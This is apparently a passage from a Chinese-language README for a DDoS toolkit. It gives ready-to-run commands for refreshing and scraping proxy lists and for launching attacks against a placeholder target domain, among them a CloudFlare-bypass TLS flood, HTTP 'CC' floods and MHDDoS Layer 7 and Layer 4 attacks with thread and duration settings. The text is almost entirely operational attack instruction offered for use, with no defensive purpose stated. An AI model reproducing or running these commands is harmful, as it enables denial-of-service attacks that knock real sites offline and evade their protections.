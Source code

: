### 步骤 2: 刷新代理

```bash
./refresh_proxy.sh
```

### 步骤 3: 选择攻击方式

**CloudFlare 绕过**（最强 ⭐⭐⭐⭐⭐）:
```bash
node 新建文件夹/tls.js https://目标.com 120 128 10 proxy_paid.txt
```

**通用 HTTP 攻击**:
```bash
python3 cc.py -url https://目标.com -f proxy_paid.txt -v http -s 60
```

**MHDDoS 专用**:
```bash
python3 mhddos/start.py CFB 0 https://目标.com 200 proxy_paid.txt 100 180
```

---

## 💡 快速参考

### 常用命令

```bash
# 刷新付费代理
./refresh_proxy.sh

# 筛选免费代理
python3 超高速筛选.py

# 抓取新代理
python3 新建文件夹/scrape.py

# CloudFlare 绕过（推荐）
node 新建文件夹/tls.js https://目标.com 120 128 10 proxy_paid.txt

# 快速 HTTP 攻击
node 新建文件夹/cfx.js https://目标.com proxy_paid.txt 30

# Python CC 攻击
python3 cc.py -url https://目标.com -f proxy_paid.txt -v http -s 60

# MHDDoS Layer 7
python3 mhddos/start.py CFB 0 https://目标.com 200 proxy_paid.txt 100 180

# MHDDoS Layer 4
python3 mhddos/start.py TCP 目标IP:端口 200 180
```

---